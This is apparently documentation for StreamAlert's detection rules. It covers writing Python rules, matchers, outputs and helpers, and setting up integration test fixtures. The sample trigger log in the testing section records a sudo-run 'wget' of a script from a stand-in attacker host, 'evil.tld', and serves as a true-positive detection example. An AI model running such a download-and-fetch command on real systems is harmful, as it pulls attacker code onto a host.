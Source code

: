 Rules
=====

* Rules encompass data analysis and alerting logic
* Rules are written in native Python, not a proprietary language
* A Rule can utilize any Python function or library
* A Rule can be run against multiple log sources if desired
* Rules can be isolated into defined environments/clusters
* Rule alerts can be sent to one or more outputs, like S3, PagerDuty or Slack
* Rules can be unit tested and integration tested

Getting Started
---------------

* Rules are located in the ``rules/`` sub-directory.
* Generally, a separate rule file should be created for each cluster defined in the ``variables.json`` file.
  * examples: ``corp.py``, ``pci.py``, or ``production.py``
  * This structure is optional, you can organize rules however you would like.

After defining a new rule file, you must import them in the ``main.py`` file (found in the repo root).  For the given examples above, this would be::

  from rules import (
      corp,
      pci,
      production
  )

.. note:: If you skip the above step, your rules will not load when AWS Lambda runs.

Overview
--------

Each new rule file must contain the following at the top::

  from stream_alert import rule_helpers
  from stream_alert.rules_engine import StreamRules
  rule = StreamRules.rule

All rules take this structure::

    @rule('example',
          logs=[...],
          matchers=[...],
          outputs=[...])
    def example(record):
        # record analysis             # analyze the incoming record w/ your logic
        return True                   # return True if an alert should be sent

You define a list of ``logs`` that the rule is applicable to.  Rules will only be evaluated against incoming records that match the declared log types.

Example
-------

Here’s an example that alerts on the use of sudo in a PCI environment::

    from fnmatch import fnmatch

    @rule('production_sudo',                          # name of the rule
          logs=['osquery'],                           # applicable datasource(s)
          matchers=['pci'],                           # matcher(s) to evaluate
          outputs=['s3', 'pagerduty', 'slack'])       # where to send alerts
    def production_sudo(record):                      # incoming record/log
        table_name = record['name']
        tag = record['columns']['tag']
        return (
          table_name == 'linux_syslog_auth' and
          fnmatch(tag, 'sudo*')
        )

You have the flexibility to perform simple or complex data analysis

Parameter Details
-----------------

logs
~~~~~~~~~~~

``logs`` define the log sources the rule supports; the ``def`` function block is not run unless this condition is satisfied.

* A rule can be run against multiple log sources if desired.
* Log sources (e.g. datasources) are defined in ``conf/sources.json`` and subsequent schemas are defined in ``conf/logs.json``. For more details on how to setup a datasource, please see the Datasources section.

matchers
~~~~~~~~

``matchers`` is optional; it defines conditions that must be satisfied in order for the rule to be evaluated.  This serves two purposes:

* To extract common logic from rules, which improves readability and writability
* To ensure necessary conditions are met before full analysis of an incoming record

Matchers are defined in ``rules/matchers.py`. If desired, matchers can also be defined in rule files if the following line is added to the top::

  matcher = StreamRules.matcher

In the above example, we are evaluating the ``pci`` matcher.  As you can likely deduce, this ensures alerts are only triggered if the incoming record is from the ``pci`` environment. This is achieved by looking for a particular field in the log. The code::

    @matcher('pci')
    def is_prod_env(record):
        return record['decorations']['envIdentifier'] == 'pci'


outputs
~~~~~~~

``outputs`` define where the alert should be sent to, if the return value of the rule is ``True``.

StreamAlert supports sending alerts to PagerDuty, Slack and Amazon S3. As demonstrated in the example, an alert can be sent to multiple destinations.

req_subkeys
~~~~~~~~~~~

``req_subkeys`` is optional; it defines the required sub-keys that must exist in the incoming record in order for the rule to be evaluated.

This feature should be avoided, but is useful if you defined a loose schema to trade flexibility for safety; see `Schemas <conf-schemas.html#json-example-osquery>`_.

Examples::

  @rule('osquery_etc_hosts',
        logs=['osquery'],
        outputs=['pagerduty', 's3'],
        req_subkeys={'columns':['address', 'hostnames']})
        ...

  @rule('osquery_listening_ports',
        logs=['osquery'],
        outputs=['pagerduty', 's3'],
        req_subkeys={'columns':['port', 'protocol']})
        ...


Helpers
-------
To improve readability and writability of rules, you can extract commonly used ``Python`` processing logic into custom helper methods.   These helpers are defined in ``stream_alert/rule_helpers.py`` and can be called from within a matcher or rule.

Example function::

    def in_set(data, whitelist):
        """Checks if some data exists in any elements of a whitelist.

        Args:
            data: element in list
            whitelist: list/set to search in

        Returns:
            True/False
        """
        return any(fnmatch(data, x) for x in whitelist)

Example use of that function within a rule::

    @rule('foobar', ...)
    def foobar(record):
        user = 'joe'
        user_whitelist = { 'mike', 'jin', 'jack', 'mary' }

        return in_set(user, user_whitelist)


Rules Testing
-------------

In order to test the effectiveness of our new rules, you can run a set of local integration tests to verify alerts would be triggered.  The `stream_alert_cli.py` command line tool comes built-in with a `lambda test` command.

Configuration
~~~~~~~~~~~~~

To get started, create (or find) an example log for your given rule.  If the rule you added expects incoming records to be JSON, add a raw JSON record into the ``trigger_events.json `` file for the related stream.

Example logs will be stored in the ``test/integration/fixtures/kinesis`` subdirectory.  A new folder should be created for each Kinesis stream as declared in your `sources.json <conf-datasources.html>`_.

Within each of these folders, add the following two files:

* ``trigger_events.json``
* ``non_trigger_events.json``

These files allow you to separate true positives from false positives.

Recall our earlier example that alerts on the use of ``sudo`` in the ``pci`` environment. In ``trigger_events.json``, you would add an example log that should alert::

  {
    "name": "linux_syslog_auth",
    "hostIdentifier": "foobar",
    "unixTime": "1470824034",
    "decorations": {
      "envIdentifier": "pci",
      "roleIdentifier": "memcache"
    },
    "columns": {
      "tag": "sudo",
      "message": "john_adams : TTY=pts/0 ; PWD=/home/john_adams ; USER=root ; COMMAND=/usr/bin/wget http://evil.tld/x.sh",
      "facility": "authpriv"
    },
    "action": "added"
  }

.. warning:: One event per line. This log was put on multiple lines for readability and education purposes.

And lastly, in ``non_trigger_events.json``, you would add an example that shouldn't fire.

Running Tests
~~~~~~~~~~~~~

To test an example record coming from Kinesis::

  ./stream_alert_cli.py lambda test --func alert --source kinesis

To test example records from S3::

  ./stream_alert_cli.py lambda test --func alert --source s3

.. note:: coming soon - Amazon S3 testing instructions

